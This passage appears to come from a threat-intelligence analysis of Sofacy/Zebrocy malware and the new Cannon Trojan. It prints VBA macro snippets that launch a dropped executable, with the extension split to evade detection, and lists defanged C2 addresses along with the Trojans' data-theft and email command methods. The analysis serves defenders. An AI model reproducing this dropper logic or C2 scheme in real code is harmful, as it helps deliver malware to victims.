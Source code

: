 

1234

Set WA = CreateObject("Word.Application")WA.Visible = FalseSet oMyDoc = WA.Documents.Open(vF)WA.Application.Run "Module1.Proc1"





The Proc1 function within the Module1 does nothing more than build the %APPDATA%\MSDN\~msdn.exe path to the dropped payload and executes it using the built-in Shell function, as seen in the following code snippet:





vAdd = "~msdn"
vFileName = Environ("APPDATA") & "\MSDN\" 
vFileName = vFileName + vAdd & ".e" + "x" & "e"
Shell vFileName 




1234

vAdd = "~msdn"vFileName = Environ("APPDATA") & "\MSDN\" vFileName = vFileName + vAdd & ".e" + "x" & "e"Shell vFileName 





The payload dropped to the system (SHA256: 6ad3eb8b5622145a70bec67b3d14868a1c13864864afd651fe70689c95b1399a) is a UPX packed Zebrocy variant written in the Delphi language. This variant of Zebrocy is functionally very similar to the Delphi-based payloads discussed in our previous publication on Sofacy attacks using Zebrocy earlier this year. The developer of this particular payload configured it to use the following URL to communicate with as its C2:
hxxp://188.241.58[.]170/local/s3/filters.php
The Zebrocy Trojan gathers system specific information that it will send to the C2 server via an HTTP POST request to the above URL. Like other Zebrocy samples, this Trojan collects system specific information it will send to the C2 server by running the command SYSTEMINFO & TASKLIST on the command line and by enumerating information about connected storage devices. This specific variant of Zebrocy will also send a screenshot of the victim host as a JPEG image to the C2 server. The C2 server will then provide a secondary payload to the beacon in ASCII hexadecimal representation, which the Trojan will decode and write to the following location:
%APPDATA%\Roaming\Audio\soundfix.exe
During our analysis, the C2 server provided a secondary payload that functionally appeared similar to the initial Zebrocy sample. The secondary payload was also written in Delphi and its developer configured it to communicate with its C2 server using HTTPS via the following URL:
hxxps://200.122.181[.]25/catalog/products/books.php
 
New Cannon Trojan
We were able to collect a second delivery document that shared the Joohn author from the crash list(Lion Air Boeing 737).docx document, as well as the 188.241.58[.]170 C2 IP to host its remote template. Structurally this sample was very similar to the initially analyzed document, but the payload turned out to be a completely new tool which we have named Cannon.
The tool is written in C# whose malicious code exists in a namespace called cannon, which is the basis of the Trojan’s name. The Trojan functions primarily as a downloader that relies on emails to communicate between the Trojan and the C2 server. To communicate with the C2 server, the Trojan will send emails to specific email addresses via SMTPS over TCP port 587. The specific functions of Cannon can be seen in Table 1. This tool also has a heavy reliance on EventHandlers with timers to run its methods in a specific order and potentially increase its evasion capability.
